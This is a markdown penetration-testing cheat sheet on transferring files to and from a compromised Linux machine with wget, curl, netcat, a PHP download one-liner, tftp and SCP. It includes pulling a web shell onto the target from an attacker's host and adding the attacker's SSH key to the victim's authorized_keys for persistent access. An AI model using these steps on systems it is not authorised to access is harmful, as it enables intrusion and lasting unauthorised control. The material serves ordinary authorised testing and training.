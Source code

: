 # Transferring Files on Linux

## Set Up a Simple Python Webserver

For the examples using curl  and wget we need to download from a web-server. THis is an easy way to set up a web-server. This command will make the entire folder available on port 9999.

```
python -m SimpleHTTPServer 9999
```

## Wget

Now you can download any file with curl or wget

```
wget 192.168.1.102:9999/file.txt
```

## Curl

```
curl -O http://192.168.0.101/file.txt
```

## Netcat

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do ctr-c because  that will destroy your sessions.

So instead you can connect from the target machine like this.

On attacking machine:

```bash
nc -lvp 4444 < file
```

On target machine:

```bash
nc 192.168.1.102 4444 > file
```

You can of course also do it the other way around:

So on the victim-machine we run nc like this:

```bash
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```bash
nc 192.168.1.103 < enum.sh
```

I have sometimes recieved this error:

```
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```
nc -l 1234 > file.sh
```


## With php

```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## Ftp

If you have access to a ftp-client to can of course just use that. Rembemer, if you are uploading binaries you must use binary mode, otherwise the binary will become corrupted!!!

## Tftp

On some rare machine we do not have access to nc and wget, and curl.. But we might have access to tftp. Some versions of tftp are run interactively, like this:

```
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can  do this trick:

```
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

### SSH - SCP

If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the /home/user dir you can find the hidden `.ssh` files by typing `ls -la`.
Then you need to do two things.

1. Create a new keypair

You do that with: 
```
ssh-keygen -t rsa -C "your_email@example.com"
```
then you enter a name for the key.

Enter file in which to save the key (/root/.ssh/id_rsa): nameOfMyKey
Enter passphrase (empty for no passphrase): 
Enter same passphrase again:

This will create two files, one called **nameOfMyKey** and another called **nameOfMyKey_pub**. The one with the *_pub* is of course your public key. And the other key is your private.

2. Add your public key to authorized_keys.

Now you copy the content of **nameOfMyKey_pub**. 
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized_keys. Like this 

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

3. Log in.
Now you should be all set to log in using your private key. Like this

```
ssh -i nameOfMyKey kim@192.168.1.103
```

### SCP

Now we can copy files to a machine using **scp**

```
# Copy a file:
$ scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
$ scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```